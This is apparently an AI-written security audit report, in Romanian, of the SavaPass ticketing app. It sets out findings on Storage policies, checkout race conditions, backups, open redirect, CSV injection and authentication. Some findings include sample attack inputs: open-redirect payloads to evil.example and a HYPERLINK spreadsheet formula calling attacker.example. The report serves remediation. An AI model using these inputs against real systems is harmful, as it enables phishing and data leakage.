

# SavaPass Security Readiness Report și To-Do List

Data auditului: 19 august 2026  
Auditor: Codex, audit read-only  
Repository: `https://github.com/balautaalex17-sudo/sava-pass.git`  
Branch și HEAD: `perf/pagespeed-mobile-green` la `9c001350b0741715cb2e6daec2bd99c9fdae6119`  
Aplicație verificată: `https://www.interactsfsava.com`  
Supabase live: `shzyvrojbtbczqqoilip`, `eu-west-1`, PostgreSQL 17.6  

## Verdict

**[x] BLOCKED PENDING SECURITY FIXES**

Nu au fost găsite vulnerabilități Critical, dar există trei blocante High:

1. roluri operaționale pot ocoli validarea serverului și pot modifica direct orice obiect din bucket-ul public `media`;
2. checkout-ul public permite epuizarea permanentă a stocului și oversell prin verificări neatomice, fără rate limiting și fără expirare automată;
3. producția nu are un backup restaurabil demonstrat și nu poate fi reprodusă din Git, deoarece 27 de migrații sunt neversionate și deploy-urile sunt marcate `gitDirty=1`.

Aplicația are o bază bună de autentificare, RLS, validare și tranzacții pentru scanare/plată cash. Totuși, launch gate-ul cerut nu poate trece până când blocantele High sunt închise și retestate.

## Actualizare după remediere: 19 august 2026

Textul constatărilor de mai jos rămâne snapshot-ul probei inițiale. În working tree-ul
local au fost închise toate vulnerabilitățile de cod care puteau fi remediate fără a
modifica producția:

- H-01 și H-02 sunt reparate local prin politici Storage restrânse, upload semnat prin
  staging privat, rezervare atomică, idempotency, expirare și rate limiting durabil;
- partea de reproductibilitate din H-03 are baseline canonic, migrații ordonate, reset
  CI pe bază izolată și `/dev/*` blocat real în production; backupul off-site și un
  restore drill rămân operații externe nedemonstrate;
- M-01 are blocare explicită în production și allowlist exact de preview, dar conturile
  test live trebuie încă dezactivate și credentialele rotate;
- M-02 până la M-05 și M-08 sunt reparate local: redirect sigur, limite de payload,
  rate limiting, headere, CSV sigur, dependințe curate, CI, Dependabot și scanare
  Gitleaks; cursa de notificări din M-06 are claim atomic, iar operațiile critice de
  rol/plată/prezență își scriu deja auditul în RPC-urile tranzacționale, dar alertarea
  operațională rămâne de configurat;
- M-09 are acum un guard care refuză categoric project ref-ul production și permite
  integrarea numai pe localhost sau un branch de test declarat explicit;
- L-01 până la L-03 sunt reparate local prin `getUser()`, `server-only` și 404 de
  production pentru rutele de dezvoltare.

Rămân în afara codului local: review-ul juridic și procesele de retenție/DSAR/minori
(M-07), leaked-password protection și MFA (M-10), ștergerea conturilor test live,
backupul criptat plus restore drill, aplicarea migrației, setarea `CRON_SECRET` și
deploy-ul dintr-un commit curat. Din acest motiv verdictul de launch rămâne blocat
până la finalizarea și retestarea acestor operații.

Verificare locală post-fix: typecheck pass, build production cu 81 pagini, 25/25
teste selectate, lint cu 0 erori, `npm audit --audit-level=low` cu 0 vulnerabilități,
headere prezente, cron fără secret = 503, `/dev/*` = 404 și Server Action public peste
128 KB = 413. Resetul DB nu a putut rula local deoarece Docker/Podman/PostgreSQL nu
sunt instalate; workflow-ul CI este configurat să îl execute într-un mediu izolat.

## 1. Scop, metodă și limite

Auditul a acoperit:

- codul local exact, inclusiv fișierele modificate și neversionate;
- schema și politicile bazei Supabase live;
- configurația Storage live;
- proiectul și deploy-urile Vercel conectate;
- antetele și răspunsurile HTTP ale domeniului live;
- autentificarea, autorizarea, RLS, QR-urile, checkout-ul cash, notificările și audit logs;
- dependențele NPM, Git history și configurația CI;
- politica de confidențialitate, retenția și cazul utilizatorilor minori;
- build, TypeScript, lint și testele care nu modifică date live.

Auditul nu a efectuat load testing, upload malițios, creare de rezervări false sau modificări ale datelor live. Suita completă de integrare nu a fost rulată deoarece este conectată la producție și creează/șterge utilizatori, bilete și prezențe. API-ul Vercel pentru environment variables a răspuns `403`, deci activarea server-side a loginului staff de test rămâne neconfirmată.

Starea locală are `507` intrări dirty, dintre care `419` neversionate. Ultimul deploy Vercel de producție, `dpl_34twUL6r9QF6vuc8oEVxPrxy4xQw`, este asociat aceluiași commit, dar are `gitDirty=1`. Prin urmare, constatările despre baza de date, Storage și HTTP sunt probe live, iar constatările de cod descriu release candidate-ul local. Paritatea exactă cod-live nu poate fi demonstrată.

## 2. Model de amenințări și flux de date

### Active importante

- date personale ale cumpărătorilor și candidaților: nume, email, telefon, clasă, răspunsuri și note de interviu;
- date despre membri minori, prezență și evaluări;
- bilete, QR-uri HMAC și starea plății cash;
- roluri și permisiuni admin, board, scanner, interviewer și statistici;
- capacitatea evenimentelor și venitul operațional;
- fișierele publice de brand din Supabase Storage;
- cheile Supabase service role, Resend, QR signing și credentialele conturilor staff de test;
- audit logs și istoricul scanărilor.

### Actori

- vizitator anonim sau bot;
- cumpărător/candidat autentic sau malițios;
- membru autentificat;
- scanner, interviewer sau utilizator statistici compromis;
- board/admin compromis;
- furnizori externi: Vercel, Supabase și Resend;
- operator intern care face o greșeală de deploy sau migrare.



Nu există integrare Stripe sau webhook de plată în release candidate-ul curent. Plata este cash. Nu există funcții AI/LLM și nici aplicație mobilă nativă.

## 3. Controale care funcționează

- Niciun secret cu prefix de încredere ridicată nu a fost găsit în cele 69 de commit-uri scanate. `.env.local` și tokenul Vercel local sunt ignorate de Git.
- Toate tabelele aplicației din schema `public` au RLS activat. Politicile pentru profiluri, bilete, aplicații, evaluări, rate limits și audit logs sunt în general restrictive.
- Paginile și acțiunile sensibile verifică utilizatorul server-side cu `getUser()` și aplică permisiuni înainte de acces.
- Check-in-ul de bilet, confirmarea cash și prezența la întâlniri folosesc funcții Postgres atomice și tratează duplicatele.
- Tokenurile QR folosesc HMAC-SHA256, comparație timing-safe, scopuri separate și expirare scurtă pentru QR-ul de membru.
- Prețul și moneda sunt citite server-side. Clientul nu poate alege suma plății.
- Majoritatea inputurilor folosesc Zod, iar valorile incluse în emailuri sunt escapate HTML.
- Endpointurile board testate fără sesiune au răspuns `401`; `/admin` a redirecționat la login.
- HTTPS și HSTS sunt active pe domeniul live.
- Build-ul de producție, TypeScript și lint trec. Au fost rulate 21 de teste sigure, toate cu succes.

Aceste controale sunt aliniate cu recomandările actuale Supabase pentru [RLS](https://supabase.com/docs/guides/database/postgres/row-level-security), [securitatea produsului](https://supabase.com/docs/guides/security/product-security) și validarea autentificării pe server cu `getUser()`/`getClaims()` în loc de încredere în cookie-ul brut [Supabase SSR](https://supabase.com/docs/guides/auth/server-side/creating-a-client).

# 4. Findings

## High

### H-01 - `web/supabase/schema.sql:305` - Rolurile operaționale pot modifica arbitrar bucket-ul public media

**Problema:**  
Politicile live `media staff insert`, `media staff update` și `media staff delete` permit operația dacă `private.is_staff()` este adevărat. Funcția returnează adevărat pentru orice profil activ care are orice rol primar sau orice assignment în `profile_roles`. Asta include scanner, interviewer și statistici. Bucket-ul `media` este public și nu are `file_size_limit` sau `allowed_mime_types`. Acțiunea Next de upload este admin-only și validează 25 MB plus MIME, dar un utilizator operațional poate ocoli complet această acțiune și poate folosi direct Supabase Storage API.

**Cum poate fi exploatată:**  
Un cont scanner/interviewer/statistici autentificat obține JWT-ul normal, folosește URL-ul Supabase și cheia publică anon din bundle, apoi trimite direct `INSERT`, `UPDATE` sau `DELETE` către `storage.objects` pentru bucket-ul `media`. Poate încărca orice tip și dimensiune permisă de infrastructură, suprascrie un path existent sau șterge active publice.

**Impact:**  
Defacement al site-ului, ștergerea imaginilor/video, hosting public de conținut arbitrar, cost Storage și pierderea integrității materialelor oficiale. Compromiterea unui rol cu acces limitat devine o compromitere a bibliotecii media.

**Fix:**  
Înlocuiește `private.is_staff()` din politicile Storage cu un predicat admin-only, de exemplu `private.is_admin()`, în acord cu `requireStaffRole(["admin"])` din `web/app/(staff)/admin/media/actions.ts:110`. Adaugă limită de mărime și allowlist MIME direct pe bucket, restricții de path/ownership și interzice overwrite-ul arbitrar. Păstrează decodarea și re-encodarea imaginilor în server action.

**Dovadă după fix:**  
Cu JWT de scanner, interviewer și statistici, upload/update/delete în `media` trebuie să răspundă `403`. Cu admin, o imagine validă sub limită trebuie să reușească; un fișier HTML, un MIME nepermis și un fișier peste limită trebuie să fie respinse de Storage chiar dacă acțiunea Next este ocolită.

**Responsabil:** Maintainer SavaPass  
**Termen:** 21 august 2026, înainte de următorul deploy public  
**Status:** [ ] Open

### H-02 - `web/app/[slug]/checkout/actions.ts:68` - Rezervări publice neatomice permit epuizarea stocului și oversell

**Problema:**  
Checkout-ul anonim verifică separat capacitatea evenimentului și capacitatea tipului de bilet, apoi inserează comanda și biletul în două operații separate. Nu există tranzacție, row lock, constraint de capacitate, cheie de idempotency, rate limiting sau CAPTCHA. Rezervările `pending/reserved` ocupă locul. `expires_at` este setat la 48 de ore, dar nu există job automat care schimbă statusul în `expired`; statusul se schimbă doar când biletul este inspectat sau scanat. View-ul `event_stats` și checkout-ul continuă să numere rezervarea expirată temporal cât timp statusul rămâne `reserved`.

**Cum poate fi exploatată:**  
Un bot trimite multe formulare cu emailuri diferite și ocupă întreaga capacitate fără plată. Cereri concurente pot citi același număr de locuri disponibile, trec verificarea și inserează mai multe bilete decât capacitatea. Retrimiterea aceluiași formular creează rezervări duplicate.

**Impact:**  
Blocarea vânzărilor legitime pe termen nedefinit, oversell la eveniment, muncă manuală de curățare, pierderi de venit și conflict la intrare.

**Fix:**  
Mută rezervarea într-o singură funcție Postgres `reserve_ticket` care blochează rândul evenimentului/tipului de bilet cu `FOR UPDATE`, recalculează locurile, inserează order și ticket în aceeași tranzacție și acceptă o cheie idempotentă unică. Adaugă rate limit atomic per IP plus email, CAPTCHA după prag și un job sigur care marchează și eliberează rezervările expirate. Păstrează prețul exclusiv server-side.

**Dovadă după fix:**  
Pentru o capacitate 10, 100 de requesturi concurente trebuie să producă exact 10 rezervări și restul răspunsuri sold-out/429. Două requesturi cu aceeași cheie trebuie să returneze aceeași rezervare. Un bilet expirat trebuie eliberat automat și să nu mai apară în `sold` fără scanare manuală.

**Responsabil:** Maintainer SavaPass  
**Termen:** 21 august 2026, înainte de deschiderea vânzărilor  
**Status:** [ ] Open

### H-03 - `web/supabase/migrations` - Producția nu are recovery demonstrat și nu este reproductibilă

**Problema:**  
Proiectul Supabase live este pe planul Free. Supabase precizează că backupurile zilnice automate sunt pentru Pro/Team/Enterprise și recomandă proiectelor Free exporturi regulate off-site cu `supabase db dump` [Database Backups](https://supabase.com/docs/guides/platform/backups). Nu există backup de date automat, copie off-site sau restore drill demonstrat. Din 32 de migrații locale, numai 5 sunt urmărite în Git, iar 27 sunt untracked. Deploy-urile Vercel sunt marcate `gitDirty=1`. Sursa locală spune că `/dev/rezervare-cash` trebuie să dea 404 în producție, dar ruta live răspunde 200, ceea ce demonstrează drift cod-live.

**Cum poate fi exploatată sau declanșată:**  
Nu este nevoie de un atacator. O migrare greșită, ștergere accidentală, cont service-role compromis sau bug admin poate pierde datele. Un checkout/recruitment deploy făcut din alt dirty tree nu poate fi reconstruit ori analizat forensically din commit.

**Impact:**  
Pierdere ireversibilă de aplicații, date despre minori, bilete, prezențe și audit logs; rollback incomplet; downtime și imposibilitatea de a demonstra ce cod a rulat. Backupurile DB, chiar pe planurile care le oferă, nu includ obiectele Storage, deci media are nevoie de strategie separată.

**Fix:**  
Oprește deploy-urile din dirty tree. Versionează migrațiile live sau generează un baseline canonic, apoi validează un reset într-un proiect separat. Configurează backup DB regulat și criptat off-site sau treci pe un plan cu backup potrivit; exportă separat obiectele Storage. Definește RPO/RTO și rulează un restore drill documentat într-un proiect non-production. Leagă deploy-ul numai de un commit curat și păstrează migrațiile ca artefact CI.

**Dovadă după fix:**  
`git status` curat, toate migrațiile live prezente în Git, `supabase db reset`/restore pe un proiect separat finalizat fără drift, verificare de row counts/checksum și recuperare Storage. Un deploy nou trebuie să aibă `gitDirty=0`, iar commitul și buildul să reproducă răspunsul live.

**Responsabil:** Maintainer SavaPass  
**Termen:** 23 august 2026  
**Status:** [ ] Open

## Medium

### M-01 - `web/lib/staff-test-access.ts:36` - Loginul staff de test acceptă hosturi de producție și există credentiale admin de test active

**Problema:**  
Codul declară funcția preview-only, dar acceptă orice hostname care se termină în `.vercel.app`, inclusiv aliasul de producție `sava-pass-nexuswork.vercel.app`. Dacă flagul și cele două secrete sunt configurate, acțiunea autentifică utilizatorul într-un cont real admin/board/scanner/interviewer. Local, flagul, cheia, codul și credentialele sunt setate. Testul read-only a autentificat cu succes credentialul admin live, apoi a eșuat deoarece acel utilizator nu avea markerul `savapass_test_account=true`. În DB există și conturi test active marcate pentru admin, board și scanner. Starea flagului din Vercel nu a putut fi citită din cauza unui `403`.

**Cum poate fi exploatată:**  
Dacă feature flagul este activ în producție, scurgerea URL-ului `?staff=...` și a codului comun oferă login direct într-un rol privilegiat. Chiar cu feature flagul oprit, credentialul de test admin rămâne un cont normal cu parolă care poate fi folosit prin `/login`.

**Impact:**  
Compromitere completă admin, audit neclar din cauza contului partajat și persistența unei căi de acces care nu este necesară utilizatorilor reali. Severitatea devine High imediat dacă flagul Vercel este activ în production.

**Fix:**  
Șterge/dezactivează conturile test din proiectul production și mută testele pe Supabase local sau branch separat. Blochează explicit `VERCEL_ENV === "production"`, folosește allowlist de deployment preview exact și nu stoca credentiale test production. Activează MFA pentru admin/board.

**Dovadă după fix:**  
Query-ul `auth.users` nu mai găsește conturi test în production, loginul cu credentialele vechi eșuează, iar pagina/acțiunea staff test răspunde 404/deny pe toate aliasurile production. Testele rulează numai pe proiectul izolat.

**Responsabil:** Maintainer SavaPass  
**Termen:** 21 august 2026  
**Status:** [~] Production flag unverified, active accounts verified

### M-02 - `web/app/conta/confirm/route.ts:6` - Open redirect în callbackul de autentificare

**Problema:**  
Validarea acceptă orice string care începe cu `/` și nu începe cu `//`. Un input ca `/\\evil.example` trece validarea, iar `new URL(input, request.url)` îl normalizează la `https://evil.example/`. Aceeași logică apare în pagina de login și în `web/lib/staff-routes.ts:5`.

**Cum poate fi exploatată:**  
Atacatorul construiește un link magic cu `next=%2F%5Cevil.example`. După autentificare, utilizatorul poate fi trimis către domeniul atacatorului, care poate imita SavaPass și cere alte date.

**Impact:**  
Phishing după un flow legitim de login, pierderea încrederii și posibil furt ulterior de credentiale. Nu s-a demonstrat furt direct al sesiunii Supabase.

**Fix:**  
Folosește o allowlist de destinații interne sau parsează URL-ul față de un origin de încredere și cere `parsed.origin === trustedOrigin`. Respinge backslash, control characters și forme normalizate neașteptate. Centralizează validatorul și folosește-l în toate cele trei locuri.

**Dovadă după fix:**  
Teste unitare pentru `/conta`, `//evil`, `/\\evil`, `%2f%5cevil`, caractere de control și URL absolut. Numai pathurile din allowlist trebuie acceptate.

**Responsabil:** Maintainer SavaPass  
**Termen:** 24 august 2026  
**Status:** [ ] Open

### M-03 - Mai multe acțiuni publice nu au rate limiting sau limite complete de payload

**Problema:**  
`web/app/(club)/contact/actions.ts` are doar honeypot, fără rate limit și fără limite maxime pentru nume/mesaj. `next.config.ts:24` permite 64 MB per Server Action. Aplicația de membru are limite de câmp, dar nu are rate limit, CAPTCHA sau inserare atomică față de `application_limit`. Password reset se bazează numai pe limitele furnizorului. `/api/keep-warm` este fail-open când `CRON_SECRET` lipsește și a răspuns live `200` fără autentificare. `/api/member/qr` nu are limită per utilizator.

**Cum poate fi exploatată:**  
Un bot poate umple `contact_messages`, trimite emailuri către staff, consuma quota Resend, trimite aplicații false până la limită sau folosi payloaduri foarte mari. Endpointul keep-warm poate fi apelat repetat pentru a amplifica requesturi către DB.

**Impact:**  
Costuri, spam, quota exhaustion, încetinire, umplerea limitelor de recrutare și zgomot operațional.

**Fix:**  
Aplică rate limit atomic per IP plus email/account, cu praguri pe endpoint, `429` și `Retry-After`. Pune maxime Zod mici pentru contact și micșorează `bodySizeLimit`. Adaugă CAPTCHA/Turnstile după prag la formularele publice. Fă `keep-warm` fail-closed și setează `CRON_SECRET` în production.

**Dovadă după fix:**  
Teste automate care depășesc pragul și primesc `429`, payload peste limită primește eroare înainte de DB/email, iar `/api/keep-warm` fără bearer primește `401`.

**Responsabil:** Maintainer SavaPass  
**Termen:** 26 august 2026  
**Status:** [ ] Open

### M-04 - `web/next.config.ts` - Lipsesc headerele browser de apărare în profunzime

**Problema:**  
Domeniul live trimite HSTS, dar nu trimite `Content-Security-Policy`, `X-Content-Type-Options`, `X-Frame-Options` sau `frame-ancestors`, `Referrer-Policy`, `Permissions-Policy` și politici cross-origin. Configurația Next nu definește `headers()`.

**Cum poate fi exploatată:**  
O injecție XSS viitoare nu are o limită CSP, paginile pot fi încadrate în iframe pentru clickjacking, iar URL-uri bearer precum `/candidatura/[token]` nu au o politică explicită de referer.

**Impact:**  
Crește impactul unui bug frontend viitor și expune utilizatorii la clickjacking/phishing. HSTS reduce riscul de downgrade, dar nu acoperă aceste clase.

**Fix:**  
Adaugă o CSP graduală cu `default-src 'self'`, `object-src 'none'`, `base-uri 'self'`, `frame-ancestors 'none'`, `form-action 'self'` și surse explicite pentru script/style/media/connect. Adaugă `nosniff`, `Referrer-Policy: strict-origin-when-cross-origin` sau mai strict pentru token routes și o Permissions Policy minimă. Evită `unsafe-eval`; tratează separat inline CSS/script existent.

**Dovadă după fix:**  
Verificare `curl -I` pe public, login și candidate route; test de iframe blocat; CSP în report-only fără violări necesare, apoi enforcement.

**Responsabil:** Maintainer SavaPass  
**Termen:** 26 august 2026  
**Status:** [ ] Open

### M-05 - `web/app/api/board/attendance/export/route.ts:6` - CSV formula injection

**Problema:**  
Funcția `csvCell` citează și escapează ghilimele, dar nu neutralizează celulele care încep cu `=`, `+`, `-` sau `@`. Numele, emailul și clasa membrului ajung în fișierul deschis de board în Excel/Sheets.

**Cum poate fi exploatată:**  
Un utilizator salvează un nume precum `=HYPERLINK("https://attacker.example/...","Nume")`. Exportul păstrează formula, iar spreadsheet-ul o poate evalua când un membru board deschide fișierul.

**Impact:**  
Cereri externe care pot divulga metadate, phishing în spreadsheet și, în funcție de aplicația locală, acțiuni mai periculoase.

**Fix:**  
După conversia la text, prefixează cu apostrof orice valoare al cărei prim caracter este `=`, `+`, `-`, `@`, tab sau carriage return. Păstrează apoi escaping-ul CSV existent.

**Dovadă după fix:**  
Teste cu toate prefixele periculoase și deschidere într-un spreadsheet: celula trebuie afișată ca text, nu executată ca formulă.

**Responsabil:** Maintainer SavaPass  
**Termen:** 24 august 2026  
**Status:** [ ] Open

### M-06 - `web/lib/notifications.ts:138` - Livrarea notificărilor și auditul nu sunt fiabile concurent

**Problema:**  
`deliverDueNotifications` citește toate rândurile `queued`, apoi le trimite fără claim atomic. Două execuții cron pot selecta și trimite același email. `deliverNotification` nu condiționează update-ul de statusul anterior. Separat, `web/lib/audit.ts:14` descrie auditul ca best-effort și permite mutației reale să reușească dacă inserarea auditului eșuează. Nu există alertare de securitate configurată; Vercel păstrează logs, dar auditul a găsit numai observabilitate pasivă.

**Cum poate fi exploatată sau declanșată:**  
Două cronuri/manual retries pornesc simultan și trimit duplicate. O eroare DB pe `audit_logs` face schimbarea de rol/plată să existe fără dovada aferentă.

**Impact:**  
Spam, cost email, comunicări duplicate către candidați și istoric incomplet pentru operații privilegiate.

**Fix:**  
Folosește claim atomic `UPDATE ... WHERE status='queued' ... RETURNING` sau `FOR UPDATE SKIP LOCKED`, idempotency/provider key și retry state machine. Pentru schimbări de rol, confirmări cash și corecții de prezență, scrie auditul în aceeași tranzacție DB sau într-un outbox tranzacțional. Adaugă alertă pentru eșecuri repetate, loginuri admin neobișnuite și rate-limit spikes.

**Dovadă după fix:**  
Doi workers concurenți procesează același rând o singură dată. Simularea unui eșec de audit trebuie fie să anuleze operația sensibilă, fie să lase un outbox recuperabil și alertă.

**Responsabil:** Maintainer SavaPass  
**Termen:** 28 august 2026  
**Status:** [ ] Open

### M-07 - `web/app/confidentialitate/page.tsx:48` - Retenție, drepturile persoanelor și consimțământul minorilor nu sunt operaționalizate

**Problema:**  
Politica este bine structurată, dar spune explicit că este text orientativ și cere verificare juridică. Retenția comenzilor este vagă, nu există job/procedură demonstrată de ștergere sau anonimizare, iar exportul/ștergerea datelor se bazează numai pe un email. Formularul de recrutare folosește consimțământul ca temei, dar nu colectează vârsta, nu are flux parental și nu versioneză dovada consimțământului. Utilizatorii sunt liceeni și pot avea sub 16 ani.

**Cum poate fi exploatată sau declanșată:**  
Nu este în primul rând un exploit tehnic. Riscul apare când un minor trimite date extensive, își retrage consimțământul sau cere copie/ștergere, iar operatorul nu poate demonstra consimțământul, termenul ori executarea cererii.

**Impact:**  
Neconformitate, păstrare excesivă a datelor despre minori, răspuns întârziat la DSAR și pierderea încrederii. Articolul 13 GDPR cere perioada sau criteriile de retenție și informarea despre acces/ștergere/portabilitate, iar Articolul 8 tratează consimțământul copiilor pentru servicii online [textul oficial GDPR](https://eur-lex.europa.eu/legal-content/EN/TXT/?uri=CELEX%3A32016R0679). Textul oficial publicat în România indică pragul de 16 ani în acest context [Portal Legislativ](https://legislatie.just.ro/Public/FormaPrintabila/00000G037TAWN7X8KV22IQUFA98XX826). Este necesară validare juridică pentru temeiul exact aplicabil SavaPass.

**Fix:**  
Finalizează politica cu operatorul legal real, termene exacte/criterii și transferurile furnizorilor. Definește SOP pentru acces, export, rectificare și ștergere cu verificarea identității. Adaugă retention jobs și dovadă de execuție. Dacă recrutarea se bazează pe consimțământ, adaugă age gate și flux parental sub pragul aplicabil sau schimbă temeiul numai după consult juridic. Stochează versiunea politicii și timestampul consimțământului.

**Dovadă după fix:**  
Test end-to-end pentru export și ștergere, raport al jobului de retenție pe date sintetice, registru de cereri și review juridic semnat. Un candidat sub prag trebuie să intre în fluxul corect, nu în formularul standard.

**Responsabil:** Operatorul de date + Maintainer SavaPass  
**Termen:** 28 august 2026, înainte de următoarea recrutare  
**Status:** [ ] Open

### M-08 - `web/package-lock.json:6061` - Advisory High în dependențe și lipsă CI de securitate

**Problema:**  
`npm audit` găsește `nanoid@3.3.17`, sub versiunea reparată `3.3.18`, cu advisory High [GHSA-2v37-7h3g-55p8](https://github.com/advisories/GHSA-2v37-7h3g-55p8). Vine tranzitiv prin `postcss`, folosit de Next și Tailwind. Nu s-a găsit folosire directă/reachable a generatorului vulnerabil în aplicație, de aceea riscul contextual este Medium, dar launch gate-ul `npm audit` rămâne roșu. Repository-ul nu are `.github/workflows`, Dependabot, secret scanner, SAST sau quality gate.

**Cum poate fi exploatată sau declanșată:**  
Advisory-ul poate bloca generatori custom cu size zero. Mai probabil pentru acest proiect, lipsa CI permite ca vulnerabilități, erori de tipuri sau migrații lipsă să ajungă în deploy fără control repetabil.

**Impact:**  
Denial of service în code path reachable dacă apare, plus risc supply-chain și regresii nedetectate.

**Fix:**  
Actualizează lockfile-ul la `nanoid >= 3.3.18` prin update-ul minim compatibil și rerulează build/test. Adaugă CI pentru `npm ci`, typecheck, lint, teste pe DB izolată, build, `npm audit --omit=dev`, secret scanning și verificarea migrațiilor. Activează update-uri automate cu review.

**Dovadă după fix:**  
`npm audit --omit=dev` raportează zero High/Critical, `npm explain nanoid` arată versiune reparată, iar PR-ul nu poate fi merged dacă gate-urile eșuează.

**Responsabil:** Maintainer SavaPass  
**Termen:** 24 august 2026  
**Status:** [ ] Open

### M-09 - Testele de integrare sunt legate de producție, iar testul conturilor staff eșuează

**Problema:**  
Mai multe teste folosesc `SUPABASE_SERVICE_ROLE_KEY` din `.env.local` și creează/șterg users, profiles, orders, tickets, meetings și audit logs. Nu există proiect de test izolat. Din acest motiv, auditul nu a rulat suita completă. Testul staff read-only a avut 1 pass și 1 fail: autentificarea admin a reușit, dar markerul de test a fost fals.

**Cum poate fi exploatată sau declanșată:**  
O întrerupere în cleanup sau o eroare în selector poate lăsa date false ori șterge date reale. Un test concurent poate schimba statisticile și operațiile production.

**Impact:**  
Corupere de date, conturi orphan, audit fals și imposibilitatea de a folosi testele drept release gate sigur.

**Fix:**  
Rulează integrarea numai pe Supabase local/branch dedicat cu chei și date sintetice. Adaugă guard care refuză să pornească dacă project ref este production. Repară seed-ul/markerul conturilor test și elimină-le din live.

**Dovadă după fix:**  
Suita completă trece pe un project ref diferit, refuză explicit ref-ul production și lasă baza izolată curată după test.

**Responsabil:** Maintainer SavaPass  
**Termen:** 26 august 2026  
**Status:** [ ] Open

### M-10 - Supabase Auth nu are leaked-password protection și nu există MFA pentru rolurile sensibile

**Problema:**  
Security Advisor live raportează `Leaked Password Protection Disabled`. Nu există flow MFA în cod pentru admin/board. Signup-ul Supabase este activ, email confirmation este activă, iar utilizatorii noi nu primesc automat profil/rol, deci signup-ul public nu produce singur escaladare de privilegii. Totuși, protecția conturilor staff este insuficientă pentru roluri care pot schimba membri, bani cash și date despre candidați.

**Cum poate fi exploatată:**  
Credential stuffing sau reutilizarea unei parole compromise poate prelua un cont privilegiat. Conturile test partajate cresc probabilitatea.

**Impact:**  
Acces la date personale, schimbare de roluri, confirmări cash și operații administrative.

**Fix:**  
Activează [leaked password protection](https://supabase.com/docs/guides/auth/password-security#password-strength-and-leaked-password-protection), impune MFA pentru admin/board, elimină conturile partajate și documentează revocarea rapidă a sesiunilor.

**Dovadă după fix:**  
Advisor-ul nu mai raportează warning-ul, parole compromise de test sunt respinse, iar accesul admin fără factorul doi este blocat.

**Responsabil:** Maintainer SavaPass  
**Termen:** 28 august 2026  
**Status:** [ ] Open

## Low

### L-01 - `web/proxy.ts:40` - Proxy folosește `getSession()` pentru decizii de rutare

**Problema:**  
Supabase recomandă să nu fie considerat de încredere `getSession()` în cod server/Proxy, deoarece citește sesiunea din cookie; pentru protecție se folosesc `getUser()` sau `getClaims()`. În SavaPass, layouturile și acțiunile fac verificarea autoritativă ulterior, deci nu s-a demonstrat bypass direct.

**Cum poate fi exploatată:**  
Un cookie alterat poate influența redirectul sau query-urile de routing din proxy, dar nu ar trebui să treacă verificarea finală din pagină/acțiune.

**Impact:**  
Comportament de navigație incorect, logs de auth și risc de regresie dacă o rută viitoare se bazează numai pe proxy.

**Fix:**  
Folosește `getUser()`/`getClaims()` înainte de decizii sensibile sau limitează proxy-ul strict la refresh cookie și mută authorization în server code autoritativ.

**Dovadă după fix:**  
Cookie falsificat nu schimbă accesul ori redirectul către staff; testele verifică fiecare rută protejată.

**Responsabil:** Maintainer SavaPass  
**Termen:** 15 septembrie 2026  
**Status:** [ ] Open

### L-02 - `web/lib/supabase/admin.ts:1` - Modulul service-role nu declară `server-only`

**Problema:**  
Fișierul are un runtime guard `typeof window`, dar nu importă `server-only`. Cheia nu este `NEXT_PUBLIC`, deci nu s-a observat expunere în bundle, însă markerul compile-time ar preveni importul accidental într-un Client Component.

**Cum poate fi exploatată:**  
Nu există exploit curent demonstrat. Riscul este introducerea viitoare a unui import greșit și a unei erori de boundary.

**Impact:**  
Hardening și prevenirea unei regresii cu impact potențial Critical.

**Fix:**  
Adaugă `import "server-only";` ca prima linie și păstrează guardul runtime.

**Dovadă după fix:**  
Un test component client care încearcă importul trebuie să eșueze la build.

**Responsabil:** Maintainer SavaPass  
**Termen:** 15 septembrie 2026  
**Status:** [ ] Open

### L-03 - `web/app/dev` - Rutele de dezvoltare sunt incluse și publice în production

**Problema:**  
`/dev/tokens` și `/dev/rezervare-cash` răspund live `200`. Demo-ul cash generează un token HMAC valid pentru un UUID fix inexistent; scannerul nu îl poate valida ca bilet real deoarece nu există rând DB. Sursa locală încearcă să blocheze demo-ul în production, dar blocarea nu funcționează în deploy-ul live.

**Cum poate fi exploatată:**  
Ruta poate crea confuzie, poate fi distribuită ca flow real și oferă informații tehnice despre statusuri/QR. Nu s-a găsit metodă de a transforma tokenul demo într-un bilet valid.

**Impact:**  
Informații și suprafață inutile, risc reputațional și semnal clar de drift de deployment.

**Fix:**  
Elimină rutele din buildul production prin structură/config, nu numai un check runtime. Adaugă test HTTP production care cere 404 pentru `/dev/*`.

**Dovadă după fix:**  
Toate domeniile production răspund 404, iar build manifestul nu mai listează rutele.

**Responsabil:** Maintainer SavaPass  
**Termen:** 15 septembrie 2026  
**Status:** [ ] Open

# 5. Acoperirea checklistului P0-P23

Legendă: `[x]` verificat, `[~]` parțial, `[!]` blocant, `N/A` neaplicabil.

| Secțiune | Status | Rezultat principal |
|---|---:|---|
| P0 Inventar și amenințări | [x] | Active, actori, trust boundaries și fluxuri documentate. |
| P1 Secrete și env | [~] | Env-urile sunt ignorate; 69 commit-uri fără prefixuri secrete high-confidence. Nu s-a putut inspecta Vercel env și nu s-a rulat un scanner dedicat complet. |
| P2 Autentificare și sesiuni | [~] | Verificări server-side bune; conturi test active, fără MFA și leaked-password protection. |
| P3 Autorizare și IDOR | [~] | Permission checks și ownership bune în app/DB; excepția majoră este Storage media. |
| P4 Baza de date | [~] | Toate tabelele public au RLS; RPC-urile critice sunt atomice. Migrațiile și recovery-ul sunt blocante. |
| P5 Input și injection | [~] | Zod și escaping sunt răspândite; contact fără maxime și CSV injection rămân. |
| P6 API și Server Actions | [~] | Board/admin resping anonim; open redirect și endpointuri publice neprotejate rămân. |
| P7 Browser/frontend | [!] | HSTS activ, dar CSP și headerele defensive lipsesc. |
| P8 Upload/Storage | [!] | Server action bun, dar direct Storage API ocolește toate validările. |
